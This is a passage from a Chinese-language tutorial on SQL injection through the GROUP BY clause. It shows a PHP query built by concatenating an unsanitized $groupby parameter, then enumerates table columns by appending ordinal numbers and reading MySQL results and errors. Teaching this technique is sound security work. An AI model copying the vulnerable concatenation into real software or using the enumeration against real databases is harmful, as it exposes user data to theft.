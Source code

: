 上述案例中id是非聚合列，所以必须要带上，如下：

![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161739667.png)

还有一种情况， group by后面的参数只能控制一部分，比如如下sql语句：

```php
$sql=&#34;select * from users where username like &#39;admin%&#39; group by user.$groupby &#34;;
$result=mysql_query($sql);
```

像案例中就是这种情况，这种情况下获取列名只能先闭合前面的列名，然后遍历第二位的数字，如下：

```sql
mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,3;
&#43;----&#43;----------&#43;----------&#43;
| id | username | password |
&#43;----&#43;----------&#43;----------&#43;
|  8 | admin    | admin    |
|  9 | admin1   | admin1   |
| 10 | admin2   | admin2   |
| 11 | admin3   | admin3   |
| 14 | admin4   | admin4   |
&#43;----&#43;----------&#43;----------&#43;
5 rows in set (0.00 sec)

mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,4;
ERROR 1054 (42S22): Unknown column &#39;4&#39; in &#39;group statement&#39;
```
